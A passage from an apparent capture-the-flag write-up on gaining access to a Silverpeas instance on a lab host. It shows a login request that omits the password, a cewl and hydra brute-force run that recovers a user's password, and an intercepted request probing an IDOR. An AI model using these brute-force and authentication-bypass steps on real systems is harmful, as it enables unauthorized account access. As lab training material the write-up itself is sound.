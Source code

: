   Origin: http://silverplatter.thm:8080
  Connection: keep-alive
  Referer: http://silverplatter.thm:8080/silverpeas/defaultLogin.jsp
  Cookie: JSESSIONID=RG2HNOF4zRtsmh5IHn61OGRcKuHbjINKLpnrXVgA.ebabc79c6d2a
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  
  Login=scr1ptkiddy&DomainId=0
  ```

- The other way of getting access is to brute force the password. Since in the challenge description is mentioned not to use rockyou wordlist, you can create a password list with cewl using the target website.

  ```
  $ cewl http://silverplatter.thm > passwords.txt

  $ hydra -l scr1ptkiddy -P passwords.txt silverplatter.thm -s 8080 http-post-form "/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect"
  Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
  
  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-09 21:25:22
  [DATA] max 16 tasks per 1 server, overall 16 tasks, 345 login tries (l:1/p:345), ~22 tries per task
  [DATA] attacking http-post-form://silverplatter.thm:8080/silverpeas/AuthenticationServlet:Login=^USER^&Password=^PASS^&DomainId=0:F=Login or password incorrect
  [8080][http-post-form] host: silverplatter.thm   login: scr1ptkiddy   password: adipiscing
  1 of 1 target successfully completed, 1 valid password found
  [WARNING] Writing restore file because 2 final worker threads did not complete until end.
  [ERROR] 2 targets did not resolve or could not be connected
  [ERROR] 0 target did not complete
  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-09 21:25:27
  ```
  
- After logging in you can see that user `scr1ptkiddy` has one notification. I also intercepted that request and found the `ID` as parameter.

  ```
  GET /silverpeas/RSILVERMAIL/jsp/ReadMessage.jsp?ID=5 HTTP/1.1
  Host: silverplatter.thm:8080
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br
  Connection: keep-alive
  Referer: http://silverplatter.thm:8080/silverpeas/RSILVERMAIL/jsp/Main
  Cookie: JSESSIONID=RG2HNOF4zRtsmh5IHn61OGRcKuHbjINKLpnrXVgA.ebabc79c6d2a; defaultDomain=0; svpLogin=scr1ptkiddy; Silverpeas_Directory_Help=IKnowIt
  Upgrade-Insecure-Requests: 1
  Priority: u=0, i
  ```

- Honestly, I tried so hard and got so far with absuing IDOR but couldn't make it work, so I pivoted for another method.

- When you check all the users on the platform you will find users `Manager Manager` and `Administrateur`. Here, I logged out and did the same thing for Manager account like I did for `scr1ptkiddy`.

  ```
  PPOST /silverpeas/AuthenticationServlet HTTP/1.1
  Host: silverplatter.thm:8080
  User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate, br